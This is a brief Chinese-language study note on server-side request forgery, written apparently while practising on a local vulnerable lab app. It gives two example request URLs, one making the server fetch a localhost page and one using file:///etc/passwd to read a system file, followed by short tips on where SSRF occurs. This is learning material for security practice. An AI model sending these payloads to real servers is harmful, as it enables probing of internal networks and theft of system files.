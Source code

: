 # ssrf 

由服务端发起请求伪造，一般用来攻击内网


``` http://192.168.50.42/06/vul/ssrf/ssrf_curl.phpurl=http://127.0.0.1/06/vul/ssrf/ssrf_info/info1.php```
![[Pasted image 20211209112739.png]]


```http://192.168.50.42/06/vul/ssrf/ssrf_curl.php?url=file:///etc/passwd ```
![[Pasted image 20211209121303.png]]


1. ssrf漏洞一般发生在请求外链资源上(external resources)。
2. 一般需要在api上面寻找，不在前端页面
3. 可以和代码执行漏洞(RCE)一起使用




更具体的基础阶段还没学到，可以看hackerone的report or portswigger相关专题




